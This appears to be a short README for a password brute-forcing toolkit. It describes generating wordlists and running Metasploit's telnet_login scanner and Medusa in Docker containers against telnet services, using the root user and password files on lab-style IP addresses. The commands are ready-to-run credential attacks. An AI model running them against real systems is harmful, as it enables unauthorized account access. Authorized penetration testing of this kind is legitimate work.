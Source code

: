 # passwords

### generate all char combinations
Modify `password-generator.py` and run `./password-generator.py`


### Setup
```docker-compose build```

### Metasploit
 * start container session with `docker-compose run metasploit bash`.
 * start session with `msfconsole`
 * load telnet module `use auxiliary/scanner/telnet/telnet_login`
 * see options: `show options`

```
set BLANK_PASSWORDS true
set PASS_FILE /tmp/config/az/1-5.txt
set USERNAME root
set RHOSTS 10.10.10.10
run
```

```
set BLANK_PASSWORDS true
set USERPASS_FILE /tmp/config/telnet.metasploit.txt
set RHOSTS 10.10.10.10
run
```


### Medusa
https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/
  * Start container session with `docker-compose run medusa bash`.

```
medusa -C /tmp/config/telnet.medusa.txt -h 192.168.178.23 -M telnet
```

```
medusa -u root -P /tmp/config/az/1-4.txt -h 10.10.10.10 -M telnet
```

